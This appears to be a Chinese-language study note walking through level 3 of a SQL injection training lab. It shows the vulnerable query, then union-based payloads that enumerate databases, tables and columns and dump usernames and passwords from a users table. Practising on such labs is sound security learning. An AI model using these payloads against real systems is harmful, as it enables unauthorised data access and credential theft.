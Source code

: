 ```yaml
---
title: less3
url: https://www.yuque.com/u29002979/ep2zrx/vs7oyn5211mrgbwx
---
```


```bash
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

参数加了括号和单引号。

`?id=1'`报错，有注入点。

> \+号在浏览器中空格
> \#号的ascll码是%23

`?id=1') order by 4 --+`报错，没有第4列
`?id=1') order by 3 --+`显示正常，有3列

`?id=-1') union select 1,2,3 --+`显示2，3是回显点。

`?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata --+`

`?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+`

`?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns  where table_name ='users'--+`

`?id=-1') union select 1,2,(select group_concat(username,0x7e,password) from users)--+`
